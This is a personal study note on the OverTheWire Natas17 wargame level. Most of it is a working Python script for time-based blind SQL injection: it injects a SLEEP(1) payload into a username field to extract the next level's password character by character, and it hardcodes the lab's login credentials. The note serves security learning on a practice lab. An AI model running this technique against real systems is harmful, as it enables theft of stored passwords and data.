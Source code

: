 
2024-07-20 14:18

Source: 

Tags: 

similar to the [[BlindSQL]] problem in  [[SQL injection using py]] this problem also has one input field named username and a DB schema that defines username and password fields
the difference is that the echo statements are commented out, so we don't get to know if the username with a specified character exists or not .

```
import requests
import re
import string
from time import *

characters = string.ascii_letters+"0123456789"
username = 'natas17'
password = 'EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC'

url = 'http://natas17.natas.labs.overthewire.org/?debug=true'
session = requests.Session()
seen_password = list()

while ( len(seen_password) < 32 ):
    for character in characters:
    
        start_time = time()
        # print ("start_time", start_time)
        print ("trying", "".join(seen_password) + character)
        
        response = session.post(url, data = {"username": 'natas18" AND BINARY password LIKE "' + "".join(seen_password) + character +  '%" AND SLEEP(1) # '}, auth = (username, password) )

        content = response.text
        end_time = time()
        # print ("end_time", end_time)
        difference = end_time - start_time

        if ( difference > 1 ):
            # success, correct character!
            seen_password.append(character)
            break
        # print content
```
## TLDR 
- start timer before posting request and end timer after receiving the request 
- in the response we create a delay of 1 second if we find the character in the password 
- we then measure the difference between start time and end time 
- for characters with delay of more than 1 second we add them to the seen list

### References
https://www.youtube.com/watch?v=GDOpW-LShy8&t=1s